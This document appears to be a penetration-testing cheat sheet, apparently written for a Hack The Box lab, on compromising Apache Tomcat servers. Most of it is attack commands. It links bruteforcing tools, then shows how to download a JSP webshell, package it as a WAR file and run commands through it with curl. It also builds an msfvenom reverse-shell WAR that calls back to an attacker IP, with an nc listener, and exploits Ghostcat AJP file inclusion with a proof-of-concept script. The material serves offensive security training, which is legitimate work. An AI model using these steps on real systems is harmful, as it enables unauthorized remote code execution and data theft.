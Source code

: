 
If we can access the `/manager` or `/host-manager` endpoints, we can likely achieve remote code execution on the Tomcat server
### Login bruteforcing


- Metasploit Module: [auxiliary/scanner/http/tomcat_mgr_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/)
- Python Script: [Script](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)


### Uploading WAR file for RCE

This interface is available at `/manager/html` by default, which only users assigned the `manager-gui` role are allowed to access. Valid manager credentials can be used to upload a packaged Tomcat application (.WAR file) and compromise the application.


##### Manual Method
[JSP Webshell](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) needs to be put in a WAR file

Getting webshell and creating war file
```shell-session
Auzzie@htb[/htb]$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
Auzzie@htb[/htb]$ zip -r backup.war cmd.jsp
```

Executing on webshell via curl
```shell-session
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id
```


##### MSFvenom method

creating warfile with msfvevom
```shell-session
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

hosting listener for revshell
```shell-session
nc -lnvp 4443
```


##### Metasploit method
- Module:  [multi/http/tomcat_mgr_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)


##### Lightweight Method
[JSP Source](https://github.com/SecurityRiskAdvisors/cmd.jsp)



### Ghostcat LFI

All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable.
This vulnerability was caused by a misconfiguration in the AJP protocol used by Tomcat. AJP stands for Apache Jserv Protocol
The AJP service is usually running at port 8009 on a Tomcat server

Checking for AJP with nmap
```shell-session
Auzzie@htb[/htb]$ nmap -sV -p 8009,8080 app-dev.inlanefreight.local

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 20:05 EDT
Nmap scan report for app-dev.inlanefreight.local (10.129.201.58)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30
```

[POC Script](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)

default usage
```shell-session
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 
```

